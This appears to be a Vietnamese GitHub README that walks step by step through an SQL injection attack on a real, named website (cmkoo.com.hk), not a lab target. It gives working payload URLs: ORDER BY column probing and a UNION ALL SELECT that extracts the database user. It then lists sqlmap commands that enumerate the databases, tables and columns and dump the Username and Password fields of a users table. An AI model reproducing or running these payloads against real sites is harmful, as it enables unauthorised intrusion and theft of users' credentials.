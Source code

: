 # TỔNG QUAN # 

Kiểm tra trên web "CMKOO" `http://www.cmkoo.com.hk/en/news/news.php?id=28`

![image](https://github.com/user-attachments/assets/202c0835-021d-41a0-8917-919b182cdbdb)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, user](#kiểm-tra-database-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+1`

![image](https://github.com/user-attachments/assets/a84108f8-bb63-4406-97da-9aacbbc9ec96)

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+20`

![image](https://github.com/user-attachments/assets/cdf0c4bd-a4b1-4b35-a12b-a3438af00070)

=> Số cột lớn hơn 1 và bé hơn 20 

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+16`

![image](https://github.com/user-attachments/assets/d238751e-d552-4ec0-a288-b0470fc9d980)

=> Số cột là 16

## Kiểm tra database, user 

**1. User**

`http://www.cmkoo.com.hk/en/news/news.php?id=28+UNION+ALL+SELECT+1,2,3,4,user,6,7,8,9,10,11,12,13,14,15,16+from+user.cmkoo_com_hk`

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

**2. Database**

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

Trang sử dụng MySQL theo thông tin ở `error info`

## Sử dụng `sqlmap`

**1. Lấy thông tin database**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 --dbs`

![image](https://github.com/user-attachments/assets/a8c0f32a-3c0d-4bfd-9aa0-15cd070e5962)

**2. Lấy các bảng trong database**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk --tables`

![image](https://github.com/user-attachments/assets/49aa44d3-efee-4abb-8872-04a7e1720bb4)

**3. Lấy các cột trong bảng**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk -T users --columns`

![image](https://github.com/user-attachments/assets/c8328f5e-fbad-48d3-a7d8-39fef550ca8f)

**4. Lấy thông tin trong cột**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk -T users -C Username,Password --dump`

